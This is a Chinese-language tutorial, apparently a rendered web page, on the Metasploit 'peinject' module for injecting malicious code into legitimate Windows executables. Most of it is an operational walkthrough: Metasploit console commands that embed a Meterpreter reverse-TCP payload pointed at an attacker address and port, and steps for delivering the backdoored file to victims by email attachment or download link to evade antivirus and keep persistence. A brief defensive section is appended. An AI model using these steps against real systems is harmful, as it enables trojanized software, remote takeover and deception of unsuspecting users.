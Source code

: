 `peinject` 是 Metasploit 框架中的一种模块，用于将恶意代码注入到合法的 Windows 可执行文件（PE 文件）中。通过这种方式，攻击者可以创建一个看似合法但实际上包含恶意代码的文件，以逃避安全检测并成功在目标系统上执行。

### `peinject` 详解

1. **概念**：
   - **PE 文件**：PE（Portable Executable）文件是 Windows 操作系统上可执行文件的标准格式，包括 .exe、.dll、.sys 等文件类型。
   - **注入（Injection）**：将恶意代码嵌入到合法的 PE 文件中，使其在执行时能够加载并运行恶意代码。

2. **工作原理**：
   - `peinject` 模块通过修改合法 PE 文件的结构，在文件的某个部分插入恶意代码。
   - 修改文件的入口点（Entry Point），使其在执行时首先运行注入的恶意代码，然后再继续执行原始的合法代码。
   - 这种技术可以绕过很多安全检测机制，因为文件本身看起来是合法的，但实际包含恶意代码。

3. **用途**：
   - **逃避检测**：通过将恶意代码隐藏在合法文件中，攻击者可以绕过反病毒软件和其他安全措施。
   - **社工攻击**：利用合法文件的外观，诱骗用户运行恶意软件。
   - **持久化**：创建带有后门的合法文件，以便在目标系统上保持长期访问。

### 使用 `peinject` 的步骤

1. **加载模块**：
   在 Metasploit 控制台中加载 `peinject` 模块：
   ```sh
   use exploit/windows/fileformat/peinject
   ```

2. **设置选项**：
   配置目标文件路径（`FILENAME`）和恶意 payload 等必要选项：
   ```sh
   set FILENAME /path/to/legit.exe
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成注入文件**：
   生成包含恶意代码的 PE 文件：
   ```sh
   exploit
   ```

4. **传输文件**：
   将生成的文件传输到目标系统并诱骗用户执行。

### 示例

以下是使用 `peinject` 模块注入恶意代码并生成带有后门的 PE 文件的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use exploit/windows/fileformat/peinject
   set FILENAME /path/to/legit.exe
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.200
   set LPORT 4444
   ```

2. **生成文件**：
   ```sh
   exploit
   ```
   生成的文件将包含注入的恶意代码，并保存在指定路径。

3. **传输和执行文件**：
   将文件传输到目标系统，并通过社工手段诱骗用户执行。例如，通过邮件附件或下载链接。

### 安全注意事项

- **检测和防御**：管理员可以通过文件完整性监控和高级反病毒软件检测被修改的 PE 文件。
- **签名验证**：验证可执行文件的数字签名，确保文件的来源和完整性。
- **最小权限**：限制用户权限，防止恶意文件执行高权限操作。

### 总结

`peinject` 是 Metasploit 框架中的一个强大模块，用于将恶意代码注入到合法的 Windows PE 文件中。通过这种技术，攻击者可以绕过安全检测机制，诱骗用户执行恶意软件，从而获取目标系统的访问权限。使用 `peinject` 模块，攻击者可以生成带有后门的合法文件，实现远程控制和持久化访问。